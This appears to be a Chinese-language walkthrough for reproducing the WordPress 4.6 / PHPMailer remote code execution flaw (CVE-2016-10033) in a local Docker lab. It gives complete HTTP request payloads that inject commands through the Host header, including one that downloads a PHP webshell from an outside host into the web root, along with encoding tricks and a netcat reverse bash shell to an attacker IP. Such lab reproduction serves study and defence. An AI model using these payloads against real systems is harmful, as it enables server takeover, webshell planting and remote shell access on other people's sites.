


##### 可能会有用的链接:

- [CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033)
- [WordPress PHPMailer 4.6 - Host Header Command Injection (Metasploit) ---- exploit-db](https://www.exploit-db.com/exploits/42024/)
- [WordPress 4.6 - Unauthenticated Remote Code Execution ---- exploit-db](https://www.exploit-db.com/exploits/41962/)
- [WordPress 4.6远程代码执行漏洞(CVE-2016-10033)复现环境搭建指南 ---- freebuf](http://www.freebuf.com/vuls/133860.html)
- [[更新WordPress 4.6漏洞利用PoC]PHPMailer曝远程代码执行高危漏洞 ---- freebuf](http://www.freebuf.com/news/123945.html)
- [快速搭建各种漏洞环境(Various vulnerability environment)--WordPress <= 4.6 命令执行漏洞----GitHub](https://github.com/Medicean/VulApps/tree/master/w/wordpress/6)
- [PHP mail函数参数的漏洞利用姿势 ---- 绿盟科技博客](http://blog.nsfocus.net/hack-php-mail-additional_parameters-3/)


#### 搭建环境

Ubuntu16.4搭建Docker环境 ---- [Docker — 从入门到实践](https://yeasy.gitbooks.io/docker_practice/content/install/ubuntu.html)
```bash
$ curl -fsSL get.docker.com -o get-docker.sh
$ sudo sh get-docker.sh --mirror Aliyun
```

拉取镜像到本地
```bash
docker pull medicean/vulapps:w_wordpress_6
```

映射docker镜像80端口到本地的8000端口
```bash
docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6

7f6c5122e8b776795423d3c52656d60fca0e853c2e5eb70d9470522cc5db7c3e
```

访问 `http://192.168.48.130:8000` 看到 `WordPress` 主界面代表启动成功 (192.168.48.130为ubuntu ip)

#### POC

把下面的HTTP报文复制到 BurpSuite Repeater中，点击 `Go` 按钮,填写目标 IP 和 端口(IP填 192.168.48.130 端口填 8000)


```bash
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```
执行的命令为`/bin/touch /var/www/html/1.txt` ,返回302说明成功执行





#### Exp

远程下载php一句话到web目录下
```
/usr/bin/wget --output-document /var/www/html/1.php mirrors.ichenfei.com/webshell/1.php
```

> 注意:

- 远程 URL 中不要有 http://
- 所有字母必须小写
- 所有 / 用 `${substr{0}{1}{$spool_directory}}` 代替
- 所有 空格 用 `${substr{10}{1}{$tod_log}}` 代替

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}1.php${substr{10}{1}{$tod_log}}mirrors.ichenfei.com${substr{0}{1}{$spool_directory}}webshell${substr{0}{1}{$spool_directory}}1.php}} null)
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.48.130:8000/wp-login.php?action=lostpassword
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

user_login=admin&redirect_to=&wp-submit=Get+New+Password
```
菜刀成功连接:




##### nc反弹bash shell

攻击机运行:
```
nc -vv -lp 520
```
靶机运行:
```
/bin/nc.traditional -e /bin/bash 192.168.48.144 520
```


#### Docker相关

查看docker进程

```
root@huang:~# docker ps
CONTAINER ID        IMAGE                            COMMAND             CREATED             STATUS              PORTS                           NAMES
7f6c5122e8b7        medicean/vulapps:w_wordpress_6   "/start.sh"         6 minutes ago       Up 6 minutes        443/tcp, 0.0.0.0:8000-> 80/tcp   serene_ptolemy

进入运行中的docker容器
```
root@huang:~# docker exec -it 7f6c5122e8b7 /bin/bash
root@7f6c5122e8b7:/# 
```


